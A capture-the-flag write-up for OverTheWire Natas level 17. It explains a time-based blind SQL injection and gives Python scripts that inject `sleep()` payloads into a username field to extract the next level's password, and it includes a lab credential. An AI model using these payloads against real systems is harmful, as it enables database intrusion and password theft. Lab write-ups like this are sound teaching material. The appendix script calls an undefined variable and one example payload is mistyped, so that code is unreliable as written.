 # Level 16 → Level 17

## Details
Username: `natas17`<br />
Password: `XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd`<br />
URL:      http://natas17.natas.labs.overthewire.org

## Solution

<img src="./0.png"></img>

<img src="./1.png"></img>

Very similar to the stage **level14 to level15** but the difference is that there is no output for control needs. If so, the only thing that will be available to us now is - time. We will create a query so that if the password is in the correct format, we will wait a few seconds. By the time the answer is returned we will know what happened and act accordingly.

It took me a while to get the right string, and finally it turned out that `natas18" and sleep(10);-- -` works correctly. That means the answer will be delayed for about 10 seconds.

For example, the input `natas18" and password like binary "%4%" and sleep(10);-- -` will return after 10 seconds, while `natas18" and password like binary "%3%" and sleep(10);- - -` will return after a moment. This means that the digit '4' will appear in the password, and the digit '3' will not appear. That is, if when running the query we reached `sleep()`, that means we passed all the conditions of the Boolean AND operator.

We will now create a code that identifies all the characters that appear in the password (so as not to waste unnecessary time during its discovery later):

```python
from requests import get
from requests.auth import HTTPBasicAuth
from string import digits, ascii_letters

# Current level details
natas17_username = "natas17"
natas17_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"

# The sql injection time based input:
waiting_time = 3 # seconds
sql_injection_time_based = "natas18\" and password like binary \"%{}%\" and sleep(" + str(waiting_time) + ");-- -"

# GET HTTP details
URL = "http://natas17.natas.labs.overthewire.org/?username={}"
AUTH = HTTPBasicAuth(natas17_username, natas17_password)

characters_in_use = []
for c in digits + ascii_letters:
    res = get(url=URL.format(sql_injection_time_based.format(c)), auth=AUTH)
    
    if(res.elapsed.seconds >= waiting_time):
        characters_in_use.append(c)
        print("The password contains the following characters: " + ",".join(characters_in_use))
```

This is the resoult:

<img src="./2.png"></img>

Now we can run the brute force on the relevant characters only:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from string import digits, ascii_letters

# Current level details
natas17_username = "natas17"
natas17_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"

# The sql injection time based input:
waiting_time = 3 # seconds
sql_injection_time_based = "natas18\" and password like binary \"{}%\" and sleep(" + str(waiting_time) + ");-- -"
relevant_characters = ['4','6','8','a','g','k','n','o','q','u','v','w','x','D','E','F','G','J','L','N','P','Q','U','V','Z']
password = ""
password_length = 32

# GET HTTP details
URL = "http://natas17.natas.labs.overthewire.org/?username={}"
AUTH = HTTPBasicAuth(natas17_username, natas17_password)

for _ in range(password_length):
    for c in relevant_characters:
        res = get(url=URL.format(sql_injection_time_based.format(password+c)), auth=AUTH)
        
        if(res.elapsed.seconds >= waiting_time):
            password += c
            print("Password: " + password.ljust(password_length, "_"))
            break
```

<img src="./3.png"></img>

And this is the password.


## Password for the next level:
```

```

## Appendix

The following code sums it all up. Run it and enjoy:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from string import digits, ascii_letters

# Current level details
natas17_username = "natas17"
natas17_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"
natas18_password = ""
password_length = 32
characters_in_use = []

# The sql injection time based input:
waiting_time = 3 # seconds
sql_injection_recover_charecters = "natas18\" and password like binary \"%{}%\" and sleep(" + str(waiting_time) + ");-- -"
sql_injection_recover_password = "natas18\" and password like binary \"{}%\" and sleep(" + str(waiting_time) + ");-- -"

# GET HTTP details
URL = "http://natas17.natas.labs.overthewire.org/?username={}"
AUTH = HTTPBasicAuth(natas17_username, natas17_password)

# Recover relevant characters
print("Discovering the characters appearing in the password:")
for c in digits + ascii_letters:
    res = get(url=URL.format(sql_injection_recover_charecters.format(c)), auth=AUTH)

    if(res.elapsed.seconds >= waiting_time):
        characters_in_use.append(c)
        print("The password contains the following characters: " + ",".join(characters_in_use))

# Revover the password
print("Revealing the password:")
for _ in range(password_length):
    for c in characters_in_use:
        res = get(url=URL.format(sql_injection_time_based.format(natas18_password+c)), auth=AUTH)
        
        if(res.elapsed.seconds >= waiting_time):
            natas18_password += c
            print("Password: " + natas18_password.ljust(password_length, "_"))
            break

print("Password for natas18 is: " + natas18_password)
```
